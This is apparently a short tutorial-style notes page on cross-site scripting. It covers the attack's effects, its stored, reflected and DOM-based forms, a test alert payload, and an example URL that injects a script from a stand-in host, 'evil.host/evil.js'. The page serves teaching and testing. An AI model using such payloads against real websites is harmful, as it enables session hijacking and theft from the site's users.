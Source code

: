 # Cross-site scripting

Cross-site scripting \(XSS\) allows attackers to inject malicious scripts into a webpage, targeting users who load that page. It's usually caused by insufficient input validation and improper encoding of user input that is displayed on web pages. Using XSS, attackers can achieve the following:

* Hijack accounts and sessions
* Steal sensitive information
* Modify page content and deface websites
* Redirect users to another webpage
* Record keystrokes
* Redirect to websites that exploit browser vulnerabilities
* Trick users into downloading files or entering information \(e.g. via phishing\)

## Types of XSS

### **Persistent or stored**

The malicious script is stored in the database and displayed to any users who load a page containing the script. An example of this is an attacker exploiting vulnerable blog commenting to post a malicious script as a comment which is then displayed to any other user who loads the page. 

### **Reflected**

The malicious script is part of the user's request to the website and is reflected back at them as part of the response. An example would be a user clicking an email link with a malicious script in one of the parameters. The script is run against the same user when the page loads and sends their session data to the attacker's server.

### **DOM-based**

Not gonna lie, these are tricky to understand. DOM-based XSS occurs when a web application writes unsanitized data to the [Document Object Model \(DOM\)](https://css-tricks.com/dom/). When a client-side script is executed, it can use the DOM of the HTML page where the script runs to access various properties and change them. Common objects used in DOM-based XSS include `document.url` , `document.location` and `document.referrer`. 

## Basic technique

Put this in a form input field and see if it pops an alert box:

```text
<script>alert("hello");</script>
```

This is an example of reflected XSS. A stored XSS attack would mean the malicious script was permanently stored in the database \(e.g. as a comment on a discussion board\).

JavaScript can also be injected through a URL, which an unsuspecting person might click in an email:

```text
https://example.com/test.php?val=<script src="http://evil.host/evil.js"></script>
```

You can find all kinds of XSS vulnerabilities, including DOM-based, by manually walking through the application with your browser and modifying each URL parameter to contain a standard test string. 

## Further reading

* [XSS payloads](https://github.com/pgaijin66/XSS-Payloads/blob/master/payload.txt)
* [5 practical scenarios for XSS attacks](https://pentest-tools.com/blog/xss-attacks-practical-scenarios/)
* [Using Burp Scanner to find XSS issues](https://support.portswigger.net/customer/portal/articles/1965737-using-burp-scanner-to-find-cross-site-scripting-xss-issues)
* [DOM XSS explained](https://www.acunetix.com/blog/articles/dom-xss-explained/)

